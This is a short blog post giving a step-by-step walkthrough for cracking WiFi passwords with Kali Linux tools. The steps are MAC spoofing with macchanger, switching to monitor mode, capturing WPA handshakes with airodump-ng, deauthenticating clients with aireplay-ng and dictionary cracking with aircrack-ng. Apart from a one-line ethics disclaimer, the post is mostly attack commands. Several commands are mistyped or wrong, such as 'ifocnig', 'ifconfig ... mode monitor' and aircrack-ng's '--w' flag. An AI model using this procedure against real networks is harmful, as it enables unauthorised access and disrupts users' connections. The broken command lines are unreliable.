 ```yaml
---
layout: post
title: Hack the Wifi Password?
categories: FunStuff
image: 
description: How to decrypt wifi password | hack wifi password | Kali Linux | 
---
```


There are various algorithms implemented to encrypt passwords. 
It's not ethical to steal passwords of any kind, without owner's consent. However
we can setup our own environment to do some ethical practises and there are tools available for the purpose.<br>

<!--continue-->

Kali Linux is one the OS preferred for penetration testing. We can use programs in Kali OS to 
experiment with vulnerable wifi passwords in our network.<br>

<li> Change MAC address    
  <pre>macchanger  --random wlan0</pre>
    <p> MAC(Media Access Control) Address is loaded into RAM during boot and this can be changed.<br>
    </p>
</li>
<li>Set Up Monitor Mode to Wireless Interface

<p>Change the defualt 'Managed Mode' of our Wireless Interface to 'Monitor Mode'. This enables
us to collect all the packets from the router.</p>
<pre>iwconfig wlan0
ifconfig wlan0 down
ifconfig wlan0 mode monitor
ifocnig wlan0 up
iwconfig wlan0</pre>

</li>

<li>Catch Enough handshakes
<pre>
#get the required AP,channel, bssid using program airmon-ng on wireless interface
airmon-ng wlan0

#Capture every packets sent by AP on our interface usng program airodump-ng
airodump-ng --channel [channel] --bssid [bssid]  --write [filename] [interface]

#Deauthenticate client or/and wait for client to reconnect to wifi
aireplay-ng --deauth[number of deauth packets] -a [AP] -c[target] [interface]
</pre>
</li>

<li>Crack the Key
<pre>#Download the world list file and use aicrack-ng tool to crack the key
aircrack-ng [handshake filename] --w [wordlist] [interface]</pre>
</li>


<p> Some common wireless encryptions today are WEP, WPA, WPA2. WPA/WPA2 is considered as secure one. With WPS feautre enabled, it might be easier to crack the wifi. And if not, the only way is the dictionary  attack which involves comparing the dictionay(list of passwords) with handshake file.</p>